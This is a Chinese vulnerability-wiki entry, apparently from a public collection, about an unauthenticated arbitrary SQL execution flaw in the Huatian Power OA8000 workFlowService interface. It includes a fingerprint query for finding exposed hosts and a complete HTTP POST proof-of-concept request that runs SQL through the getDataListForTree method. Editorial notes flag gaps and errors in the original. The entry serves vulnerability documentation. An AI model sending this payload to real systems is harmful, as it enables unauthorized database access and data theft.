

# 华天动力OA8000 workFlowService getDataListForTree任意SQL执行

## 条目说明

- 对象与具体问题：华天动力OA8000；workFlowService getDataListForTree任意SQL执行
- 版本、配置及部署条件：产品型号8000，不是确切补丁版本；数据库user()语法
- 认证与权限前提：无凭证请求；未明确权限
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 正文传入完整select，应说明任意SQL接口暴露而非仅SQL拼接注入
- Host为中文顿号无效，HTTP块误标php
- 缺具体受影响版本、Content-Type和成功响应文本

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

### 漏洞描述

华天动力OA 8000版 workFlowService接口存在SQL注入漏洞，攻击者通过漏洞可获取数据库敏感信息

### 漏洞影响

```
华天动力OA 8000版 
```

### 网络测绘

```
app="华天动力-OA8000"
```

### 漏洞复现

产品页面


发送请求包验证漏洞

```http
POST /OAapp/bfapp/buffalo/workFlowService HTTP/1.1
Host: 、
Accept-Encoding: identity
Content-Length: 103
Accept-Language: zh-CN,zh;q=0.8
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Connection: keep-alive
Referer: http://www.baidu.com
Cache-Control: max-age=0

<buffalo-call> 
<method>getDataListForTree</method> 
<string>select user()</string> 
</buffalo-call>
```

> 请求长度说明：原资料 Content-Length 为 103；保留原始标头；其数值未据实际请求体重新计算或验证。




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
